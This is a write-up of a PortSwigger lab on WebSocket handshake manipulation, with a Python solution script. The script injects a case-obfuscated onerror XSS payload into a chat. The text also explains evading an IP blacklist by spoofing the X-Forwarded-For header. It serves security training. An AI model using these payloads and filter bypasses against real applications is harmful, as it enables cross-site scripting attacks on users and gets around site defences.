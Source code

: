 ```yaml
---
title: Manipulating the WebSocket handshake to exploit vulnerabilities
tags:
  - web-app
  - websocket
  - vulnerability
---
```


<a href="https://portswigger.net/web-security/websockets/lab-manipulating-handshake-to-exploit-vulnerabilities/">
2. Manipulating the WebSocket handshake to exploit vulnerabilities</a>

This lab demonstrates exploiting a XSS (cross site scripting) vulnerability in a
chat box implemented with WebSockets. Using Python's BeautifulSoup and
websockets libraries, we're able to extract the WebSockets endpoint from this
site's HTML, initiate a new connection, and inject IMG tags to attempt to load
an image from the src "/". Obviously, this will fail and, onerror, we'll execute
a script to trigger the alert() function.

This website implements a XSS WAF on messages received via the connection, and
if it sees the string "onerror", it will detect event-based script injection and
blacklist the IP address of the attacker. We can bypass this by modifiying our
headers for the WebSocket handshake, adding the "X-Forwarded-For" header with a
bogus IP address to bypass the blacklist. We then test our attack again by
SpongeBob-casing our "onerror" statement -> "oNeRrOr".

Solution:

```python
# usage:
# python3 1.py \
# --u https://0aaa00a7037819be80f76c960063008a.web-security-academy.net

import http.client
import json
from argparse import ArgumentParser

import requests
from bs4 import BeautifulSoup
from websockets.sync.client import connect

http.client.HTTPConnection.debuglevel = 1


class Solution:
    def __init__(self, url: str) -> None:
        self.url = url.rstrip("/")
        self.s = None

    def solve(self) -> None:
        self.s = requests.Session()
        r = self.s.get(f"{self.url}/chat")
        ws_url = (
            BeautifulSoup(r.content, "html.parser").find(id="chatForm").get("action")
        )

        with connect(ws_url) as ws:
            message = {
                "message": "<IMG SRC=/ oNeRrOr='alert(String.fromCharCode(88,83,83))'></IMG>"
            }
            ws.send(json.dumps(message))


def main():
    parser = ArgumentParser()
    parser.add_argument("--u", "--url", dest="url")
    args = parser.parse_args()
    s = Solution(args.url)
    s.solve()


if __name__ == "__main__":
    main()
```
